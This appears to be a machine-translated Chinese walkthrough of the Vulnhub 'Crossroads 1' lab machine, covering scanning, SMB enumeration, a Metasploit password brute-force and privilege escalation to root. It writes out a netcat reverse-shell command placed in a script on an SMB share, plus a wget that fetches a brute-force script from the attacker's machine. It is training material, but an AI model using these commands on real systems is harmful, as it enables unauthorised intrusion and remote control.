# Vulnhub:十字路口 1 演练

> 原文：<https://infosecwriteups.com/vulnhub-crossroads-1-walkthrough-e24371105471?source=collection_archive---------4----------------------->

Wuahahahhahaha！再次溜进来，为来自**vulnhub*Crossroads 1***的箱子的 ya 留下另一篇报道。看看我刚刚发表的上一篇博客 [Vulnhub: MoneyBox 1 演练](https://hellfire0x01.medium.com/vulnhub-moneybox-1-walkthrough-fcee571b52ae)。你可以从这里下载盒子，

[](https://www.vulnhub.com/entry/crossroads-1,659/) [## 十字路口:1

### 该网站使用“cookies”为您提供最佳、最相关的体验。使用这个网站意味着你对…

www.vulnhub.com](https://www.vulnhub.com/entry/crossroads-1,659/) 

*旧钞是金*！话虽如此，我们还是开始吧。

**扫描网络**

使用`netdiscover`我们将找出机器的 IP 地址，

```
sudo netdiscover -r 10.0.2.0/24
```



现在，我们将对该 IP 地址进行端口扫描，以找到该计算机上打开的端口、运行的服务和漏洞，并将输出保存在名为 nmap.txt 的文件中。

```
nmap -A -T4 -p- 10.0.2.47 > nmap.txt
```



正如我们所看到的，只有 2 个端口开放，即 80(HTTP)，接下来是 139–445(SMB)。

**枚举**

因为我们知道 webserver 运行在端口 80 上，所以我们可以通过 whatweb 工具查看网站上运行的是什么技术，

```
whatweb 10.0.2.44
```



让我们访问 [http://10.0.2.44](http://10.0.2.44/) ，



似乎这个网站将我们重定向到官方网站。现在，让我们使用 gobuster 对目录进行暴力破解，

```
gobuster dir -u http://10.0.2.44/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php,xxa 2>/dev/null
```



我们有一些路径，让我们访问每一个。

访问[http://10 . 0 . 2 . 44/note . txt](http://10.0.2.44/note.txt)，



似乎这是一些有趣事情的关键。

访问[http://10 . 0 . 2 . 44/robots . txt](http://10.0.2.44/robots.txt)，



robots.txt 中有一个奇怪的图像路径，但我们暂时不去管它。

我们可以列出所有的股份，并使用 smbclient 分别检查所有的股份，

```
smbclient -L \\\\10.0.2.44\\
```



当检查 print$ share 时，我们被拒绝访问，因为机器不希望我们访问打印共享。



当检查 smbshare 共享时，我们的访问被拒绝，因为机器不希望我们访问 smbshare。



检查 IPC$ share 时，我们可以看到我们已连接到共享，现在我们可以访问共享，但当我们键入命令来访问共享时，它将什么也不显示。



让我们运行 Enum4linux，看看我们得到了什么，

```
enum4linux -a 10.0.2.44
```



我们可以看到本地用户是 **albert** ,因此我们可以通过

```
smclient -l \\\\10.0.2.44\\ -U 'albert'
```



但是我们可以看到它需要密码。

所以我们将通过 **smb-login-check** 模块使用 metasploit-framework 强制使用该密码，



现在设置**选项，**

*   **设定 rhosts 10.0.2.44**
*   **设置 pass _ file/usr/share/word lists/rock you . txt**
*   **设定 smbuser 艾伯特**

点击`run`然后它会开始强力查找密码，在等待几分钟后，我们得到了 **albert** 用户的密码，



现在让我们映射 albert 用户的所有共享，我们发现了这个(我们只能阅读内容)

```
smbmap -H 10.0.2.44 -u 'albert' -p '********'
```



现在我们将尝试获取 albert 用户的 albert 共享并输入密码，



我们找到了文件 **user.txt** file。

现在是时候使用`get`命令在我们的本地系统上下载文件了。



看到本地系统中 **user.txt** 文件的内容，



再次列出所有的股票，我们决定尝试艾伯特用户的 smbshare。

```
smbclient \\\\10.0.2.44\\smbshare -U albert
```



使用 get 命令在本地系统上下载文件。

查看 **smb.conf** 文件的内容并滚动到文件的底部，我们得到这个



它说我们可以用 smbscript.sh 文件做一些神奇的事情。因此，我们将使这个文件成为连接的反向外壳，

```
touch smbscript.sh; echo 'nc -e /bin/bash 10.0.2.15 4444' > smbscript.sh
ls
cat smbscript.sh
```



用这个我们创造了一个反向的外壳。现在唯一的事情就是使用`put`命令将这个文件上传到 smbshare 上。

```
put smbscript.sh
```

将文件放在 smbshare 实例上，netcat `nc -nvlp 4444`并行运行，接收反向 shell 给出的连接，



我们得到了反向 shell，可以通过 whoami 命令确认连接，

现在我们将改进外壳的功能

```
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



现在剩下的都是系统的特权。

我们必须下载 crossroads.png 文件，使用 stegoveritas 工具提取信息，然后从提取目录复制单词列表，并使用 python 服务器在远程系统上上传单词列表



现在我们将创建一个 brute.py 文件来暴力破解密码



现在，我们将使用 python 服务器在远程机器上上传这个 python 文件。首先使用`python3 -m http.server`启动 python 服务器，然后调用我们制作的脚本，

```
wget http://10.0.2.15:8000/brute.py
```



正如我们看到的，该文件被上传到远程机器上，并通过`chmod +x brute.py`更改文件的执行权限，



我们得到了根用户证书。让我们切换到根用户。

现在我们将进入根目录寻找根标志。



我们有根旗！

嗯暂时就这样吧！但我会确保再次与大家分享我的旧笔记。这是一个随机的想法与你分享，当我看到它们时，我笑了，并为自己感到尴尬。但是我想这很有趣。感谢阅读，干杯。回头见。注意安全！